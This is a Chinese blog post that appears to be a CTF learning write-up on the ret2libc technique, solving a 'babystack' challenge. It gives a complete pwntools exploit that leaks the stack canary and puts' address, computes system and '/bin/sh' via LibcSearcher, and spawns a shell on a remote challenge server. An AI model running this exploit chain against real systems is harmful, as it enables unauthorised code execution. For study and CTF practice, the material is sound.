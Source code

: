 ```yaml
---
layout: post
title: "ret2libc与pwn1"
date: 2024-3-17
tags: [pwn]
comments: true
author: gbeefee
---
```


​	ret2libc，终于还是要搞明白了，继续栈的学习理论知识😌，下周就去学堆。

#### 0x0 

​	不同于ret2text，在程序中通常可以找的明显的system()或“/bin/sh”，没有的东西就只能靠手搓了。ret2libc的目标就是在程序中泄露出某一函数（通常是puts和write）的真实地址，根据这个地址获取对于版本的libc，在libc里就存在需要的sysem()和“/bin/sh"，再通过ROP，把它们拼成最后的栈溢出payload，获取shell的控制权。

#### 0x1

​	要泄露一个函数的真实地址，就不得不提到plt表和got表以及延迟绑定机制了。got表也叫全局偏移表，是Linux ELF文件中用于定位全局变量和函数的一个表。plt表也叫过程链接表，是用来存储外部函数在内存的确切地址，即函数第一次被调用的时候才进行绑定。在Linux系统中，为了节约程序运行的空间，函数只有在第一次执行后，才会完成got表和plt表的绑定。也就是说，在第二次调用后，got表才可以直接调用函数。

#### 0x2

例题：攻防世界pwn-1

![checksec](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/checksec.png)

没有pie保护

![main](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/main.png)

![menu](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/menu.png)

不存在后门，有很明显的溢出点，但是有canary保护，需要先泄露canary。

canary的最后一位是\x00，但是puts函数读取到\x00就会自动停止，第一次输入b'a'*0x80\n，最后一个字节正好把\x00覆盖，puts函数就会连带把canary一起打印，之后再把\x00补上，就成功泄露了canary。

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

泄露puts的真实地址，这里需要使用ROPgadget获取pop_rdi。

`payload1 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload1)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`print(hex(puts_addr))`

最后通过偏移计算出system和binsh的地址

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

结果如图

![result](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/result.png)

完整exp：

`from pwn import *`

`from LibcSearcher import *`

`context(os="linux", arch="amd64", log_level="debug")`

`elf = ELF("./babystack")`

`io=remote("61.147.171.105", 57778)`

`\#io=process("./babystack")`

`main_addr=0x0400908`

`pop_rdi = 0x0400a93`

`puts_got = elf.got['puts']`

`puts_plt = elf.plt['puts']`

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

`payload2 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload2)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

